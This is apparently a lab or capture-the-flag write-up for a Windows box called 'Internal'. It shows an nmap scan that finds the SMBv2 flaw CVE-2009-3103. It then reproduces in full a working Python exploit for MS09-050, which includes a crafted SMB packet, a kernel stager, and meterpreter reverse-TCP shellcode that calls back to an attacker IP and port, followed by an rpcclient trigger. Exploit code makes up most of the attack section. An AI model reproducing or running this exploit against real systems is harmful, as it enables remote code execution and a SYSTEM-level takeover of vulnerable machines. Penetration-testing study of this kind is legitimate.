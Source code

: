 ```yaml
---
description: Got elevated shell using publicly available exloit
---
```


# Internal

Summary

* The machine was running an old version of Microsoft Windows SMB server
* used a publicaly avaialbe exploit to get a SYSTEM shell on the box

## Let's unpack

### Enumeration

```bash
sudo nmap --script smb-vuln* -p 139,445 -oN smb-vuln-scan 192.168.166.40

smb-vuln-cve2009-3103: 
|   VULNERABLE:
|   SMBv2 exploit (CVE-2009-3103, Microsoft Security Advisory 975497)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2009-3103
|           Array index error in the SMBv2 protocol implementation in srv2.sys in Microsoft Windows Vista Gold, SP1, and SP2,
|           Windows Server 2008 Gold and SP2, and Windows 7 RC allows remote attackers to execute arbitrary code or cause a
|           denial of service (system crash) via an & (ampersand) character in a Process ID High header field in a NEGOTIATE
|           PROTOCOL REQUEST packet, which triggers an attempted dereference of an out-of-bounds memory location,
|           aka "SMBv2 Negotiation Vulnerability."
|           
|     Disclosure date: 2009-09-08
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
|_      http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
```

As indicated by the Nmap scan, the SMB is vulnerable to CVE-2009-3103.

### Initial Foothold (without Metasploit)

Using the following exploit to get a shell on the box

{% embed url="https://github.com/ohnozzy/Exploit/blob/master/MS09_050.py" fullWidth="false" %}

<details>

<summary>Exploit that worked!</summary>

<pre class="language-python"><code class="lang-python">

<strong># EDB-Note: Source ~ https://raw.githubusercontent.com/ohnozzy/Exploit/master/MS09_050.py
</strong>
#!/usr/bin/python
#This module depends on the linux command line program smbclient. 
#I can't find a python smb library for smb login. If you can find one, you can replace that part of the code with the smb login function in python.
#The idea is that after the evil payload is injected by the first packet, it need to be trigger by an authentication event. Whether the authentication successes or not does not matter.
import tempfile
import sys
import subprocess
from socket import socket
from time import sleep
from smb.SMBConnection import SMBConnection


try:

 target = sys.argv[1]
except IndexError:
 print('\nUsage: %s &#x3C;target ip>\n' % sys.argv[0])
 print('Example: MS36299.py 192.168.1.1 1\n')
 sys.exit(-1)

# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.249 LPORT=4444 EXITFUNC=thread  -f python

shell =  b""
shell += b"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64"
shell += b"\x8b\x52\x30\x8b\x52\x0c\x8b\x52\x14\x31\xff\x8b"
shell += b"\x72\x28\x0f\xb7\x4a\x26\x31\xc0\xac\x3c\x61\x7c"
shell += b"\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49\x75\xef\x52"
shell += b"\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
shell += b"\x85\xc0\x74\x4c\x01\xd0\x8b\x58\x20\x8b\x48\x18"
shell += b"\x01\xd3\x50\x85\xc9\x74\x3c\x49\x8b\x34\x8b\x31"
shell += b"\xff\x01\xd6\x31\xc0\xc1\xcf\x0d\xac\x01\xc7\x38"
shell += b"\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58"
shell += b"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
shell += b"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b"
shell += b"\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12"
shell += b"\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00\x00\x68"
shell += b"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8"
shell += b"\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
shell += b"\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x2d"
shell += b"\xf9\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50"
shell += b"\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97"
shell += b"\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85"
shell += b"\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
shell += b"\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f"
shell += b"\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68"
shell += b"\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5"
shell += b"\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9"
shell += b"\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00"
shell += b"\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff"
shell += b"\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff"
shell += b"\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
shell += b"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xe0\x1d\x2a"
shell += b"\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a"
shell += b"\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00"
shell += b"\x53\xff\xd5"


host = target, 445

buff =b"\x00\x00\x03\x9e\xff\x53\x4d\x42"
buff+=b"\x72\x00\x00\x00\x00\x18\x53\xc8"
buff+=b"\x17\x02" #high process ID
buff+=b"\x00\xe9\x58\x01\x00\x00"
buff+=b"\x00\x00\x00\x00\x00\x00\x00\x00"
buff+=b"\x00\x00\xfe\xda\x00\x7b\x03\x02"
buff+=b"\x04\x0d\xdf\xff"*25
buff+=b"\x00\x02\x53\x4d"
buff+=b"\x42\x20\x32\x2e\x30\x30\x32\x00"
buff+=b"\x00\x00\x00\x00"*37
buff+=b"\xff\xff\xff\xff"*2
buff+=b"\x42\x42\x42\x42"*7
buff+=b"\xb4\xff\xff\x3f" #magic index
buff+=b"\x41\x41\x41\x41"*6
buff+=b"\x09\x0d\xd0\xff" #return address

# stager_sysenter_hook from metasploit

buff+=b"\xfc\xfa\xeb\x1e\x5e\x68\x76\x01"
buff+=b"\x00\x00\x59\x0f\x32\x89\x46\x5d"
buff+=b"\x8b\x7e\x61\x89\xf8\x0f\x30\xb9"
buff+=b"\x16\x02\x00\x00\xf3\xa4\xfb\xf4"
buff+=b"\xeb\xfd\xe8\xdd\xff\xff\xff\x6a"
buff+=b"\x00\x9c\x60\xe8\x00\x00\x00\x00"
buff+=b"\x58\x8b\x58\x54\x89\x5c\x24\x24"
buff+=b"\x81\xf9\xde\xc0\xad\xde\x75\x10"
buff+=b"\x68\x76\x01\x00\x00\x59\x89\xd8"
buff+=b"\x31\xd2\x0f\x30\x31\xc0\xeb\x31"
buff+=b"\x8b\x32\x0f\xb6\x1e\x66\x81\xfb"
buff+=b"\xc3\x00\x75\x25\x8b\x58\x5c\x8d"
buff+=b"\x5b\x69\x89\x1a\xb8\x01\x00\x00"
buff+=b"\x80\x0f\xa2\x81\xe2\x00\x00\x10"
buff+=b"\x00\x74\x0e\xba\x00\xff\x3f\xc0"
buff+=b"\x83\xc2\x04\x81\x22\xff\xff\xff"
buff+=b"\x7f\x61\x9d\xc3\xff\xff\xff\xff"
buff+=b"\x00\x04\xdf\xff\x00\x04\xfe\x7f"
buff+=b"\x60\x6a\x30\x58\x99\x64\x8b\x18"
buff+=b"\x39\x53\x0c\x74\x2b\x8b\x43\x10"
buff+=b"\x8b\x40\x3c\x83\xc0\x28\x8b\x08"
buff+=b"\x03\x48\x03\x81\xf9\x6c\x61\x73"
buff+=b"\x73\x75\x15\xe8\x07\x00\x00\x00"
buff+=b"\xe8\x0d\x00\x00\x00\xeb\x09\xb9"
buff+=b"\xde\xc0\xad\xde\x89\xe2\x0f\x34"
buff+=b"\x61\xc3\x81\xc4\x54\xf2\xff\xff"

buff+=shell

s = socket()
s.connect(host)
s.send(buff)
s.close() 
#Trigger the above injected code via authenticated process.
subprocess.call("echo '1223456' | rpcclient -U Administrator %s"%(target), shell=True)

</code></pre>



</details>





